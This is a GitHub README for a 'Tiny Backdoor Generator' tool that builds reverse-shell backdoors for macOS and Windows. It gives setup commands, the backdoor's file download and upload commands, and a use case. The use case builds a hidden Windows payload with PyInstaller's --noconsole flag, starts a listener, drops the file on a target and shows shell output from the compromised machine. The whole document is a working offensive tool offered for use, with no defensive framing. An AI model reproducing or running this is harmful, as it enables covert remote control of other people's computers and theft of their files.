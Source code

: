 # Tiny-Backdoor-Generator

Tiny Backdoor-Generator suitable for Macos/Windows 

---

## Author

[![Linkedin: Thierry Khamphousone](https://img.shields.io/badge/-Thierry_Khamphousone-blue?style=flat-square&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/tkhamphousone/)](https://www.linkedin.com/in/tkhamphousone)

---

<br/>

## Setup

```sh
$ git clone https://github.com/Yulypso/Backdoor-Generator.git
$ cd Backdoor-Generator/src
```

## Commands

```sh
=== Tiny Backdoor Commands ===
clear: Clear the terminal
cd <dir>: Change directory
download <file>: Download a file from remote host
upload <file>: Upload a file to remote host
exit: Close the active session
````

## Use case

1. Generate a backdoor for LHOST=172.16.198.128 and LPORT=7777 

- MacOS
```sh
$ ./generate_backdoor 172.16.198.128 7777
[+] Backdoor generated: ../out/2022-11-22_20:40:23_backdoor
```

- Windows
```bat
:: Replace ${LHOST} ${LPORT} and run the following command: 
python -m PyInstaller backdoor_template.py --onefile --noconsole --name "backdoor"
```


2. Start server 

```sh
$ python3 server.py --lhost 172.16.198.128 --lport 7777
[+] Running server 172.16.198.128:7777
[+] Listening for the incoming connections ...
```

3. Drop the backdoor file and run it from the target


4. Get the shell
```sh
[+] Target connected from: ('172.16.198.1', 58859)
[help] Type exit command to quit

> Shell~('172.16.198.1', 59902): uname -a
Darwin Yulypso.lan 22.1.0 Darwin Kernel Version 22.1.0: Sun Oct  9 20:14:54 PDT 2022; root:xnu-8792.41.9~2/RELEASE_X86_64 x86_64

> Shell~('172.16.198.1', 59902): whoami
yulypso

> Shell~('172.16.198.1', 59902): exit
```